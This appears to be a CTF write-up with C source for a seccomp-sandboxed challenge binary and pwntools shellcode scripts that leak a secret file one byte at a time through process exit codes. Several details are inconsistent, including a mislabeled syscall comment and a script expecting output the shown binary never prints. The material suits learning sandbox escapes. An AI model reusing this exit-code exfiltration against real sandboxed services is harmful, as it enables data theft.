 ```yaml
---
title: Exploiting Seccomp-Restricted Program to Leak a Flag
author: megachar0x01
date: 2022-10-28
categories: [Pwn, amd64, ctf]
---
```


### Purpose : Get The Flag


**Introduction:** The purpose of this write-up is to explain the process of exploiting a seccomp-restricted program to leak a secret. Seccomp is a mechanism in Linux that restricts the system calls a program can make, providing an additional layer of security. The code provided demonstrates the use of seccomp to restrict the program to only two syscalls: `read` and `exit_group`. By leveraging these restrictions and reading one byte at a time, we can gradually leak the secret stored in the program's memory.

**Exploit Strategy:** To exploit the vulnerability, we need to leak the secret byte by byte. Since the program restricts the syscalls to `read` and `exit_group`, we cannot directly leak the secret using the `printf` function or other standard output methods. Instead, we can use the `exit_group` syscall to read the secret directly from memory. By continuously invoking the `exit_group` syscall with a  secret variable  pointer as first argument which  leaked one byte  with exit code that consists of byte in numeric form on every prgram exit , we can gradually leak the secret on .

<img src="https://i.imgur.com/ecAztLc.png" alt="img_1">

<img src="https://i.imgur.com/IEJkw96.png" alt="img_1">

## Vuln Code
```c

#define _DEFAULT_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/prctl.h>
#include <sys/fcntl.h>
#include <linux/seccomp.h>
#include <linux/filter.h>
#include <linux/audit.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <string.h>

#define CHECK(B) do { if(!(B)) exit(1); } while(0)

char secret[0x100];
int init_seccomp();

void init() {
    int fd;
    // setting stdout and stdin to be unbuffered
    setvbuf(stdout,0,_IONBF,0);
    setvbuf(stdin,0,_IONBF,0);
    // load the secret
    fd = open("secret.txt", O_RDONLY);
    read(fd, &secret, sizeof(secret));
    close(fd);
}

int main()
{
    char *code;

    init();

    printf("Welcome to \033[1;32mRCEaaS\033[0m\n");
    
    code = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANON, -1, 0);
    read(0, code, 0x1000);

    if (strcmp(secret, code)) {
        CHECK(!fclose(stdout));
        CHECK(!fclose(stderr));
        CHECK(!init_seccomp());
    } else
        printf("You seem trustworthy!\n");


    ((void (*)(void)) code) ();
}

int init_seccomp()
{
#define ALLOW(NR) \
    BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, (NR), 0, 1), \
    BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_ALLOW) \

    struct sock_filter filter[] = {
        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, arch)),
        BPF_JUMP(BPF_JMP + BPF_JEQ + BPF_K, AUDIT_ARCH_X86_64, 1, 0),
        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),

        BPF_STMT(BPF_LD + BPF_W + BPF_ABS, offsetof(struct seccomp_data, nr)),
        ALLOW(SYS_read),
        ALLOW(SYS_exit_group),

        BPF_STMT(BPF_RET + BPF_K, SECCOMP_RET_KILL),
    };
#undef ALLOW

    struct sock_fprog prog = {
        .len = sizeof(filter) / sizeof(*filter),
        .filter = filter,
    };

    return prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) || prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &prog);
}


```


## Exploit

##### First Exploit.py

```python
#!/usr/bin/python3
from pwn import *
import struct

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
break *main

break *main+159
continue
'''.format(**locals())

exe = './vuln'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)

secret = 0x404060



for i in range(256):
	
	try:
		io = start()

		payload = asm(f"""nop
		mov rsi , {secret+i}
		mov rdi, [rsi]
		mov rax,231 /* read syscall number */
		syscall


		""")



		io.sendlineafter(b'Welcome to \033[1;32mRCEaaS\033[0m\n', payload)
		io.recvline()
		print(success())

	except EOFError:
		pass

print(Progress.success())



```

##### Second Exploit.py

```python
#!/usr/bin/python3
from pwn import *

temp_code = [0] * 256
temp_pid= [0] * 256

with open('/tmp/code.txt') as code:
	with open('/tmp/pid_sort.txt') as pid:

		for i in range (256):
			temp_code[i] = code.readline().strip("\n")
			temp_pid[i] = pid.readline().strip("\n")		
		for i in range(256):
			for j in range(256):
				if temp_code[j].split("(pid ")[1].strip(")\n") == temp_pid[i]:
					chr_int = temp_code[j].replace("[*] Process './vuln' stopped with exit code ","").split(" ")[0]
					print(chr(int(chr_int)),end="")

		print("\n")

```

##### Third Exploit.sh

```shell
#!/bin/bash
python3 first.py | tee /tmp/exit_code.txt
cat /tmp/exit_code.txt  |grep "stopped with exit code"  | tee /tmp/code.txt 
cat /tmp/exit_code.txt | grep "exit"  |cut -d "(" -f 2 | sort | cut -d " " -f 2   | cut -d ")" -f 1 | tee /tmp/pid_sort.txt
#clear
echo "Content of Secret.txt"
python3 second.py
rm /tmp/*.txt

```

After Writing this i was known that exit code can be recoded directly Thank @zeeshan.

```python
from pwn import *
context.arch = "amd64"

def gen(i, flag):
    payload = asm(f"""
    mov rsp, {flag+i}
    xor rdi, rdi
    mov dil, byte ptr [rsp]
    {shellcraft.exit_group("rdi")}
    """)
    return payload

char = ""
exit_code = 0

for i in range(256):
    io = process(["./vuln"], close_fds=False)

    io.recvuntil(b'secret ')
    flag = int(io.recvline()[:-1], 16)
    log.info(f"flag is at: {hex(flag)}")

    payload = gen(i, flag)
    io.send(payload)

    exit_code = io.poll(True)
    if exit_code < 20:
        log.info(f"non ascii encountered, exiting...")
        exit(0)
    char += bytes.fromhex(hex(exit_code)[2:]).decode('ASCII')
    info(f"flag is {char}")

    io.close()
```


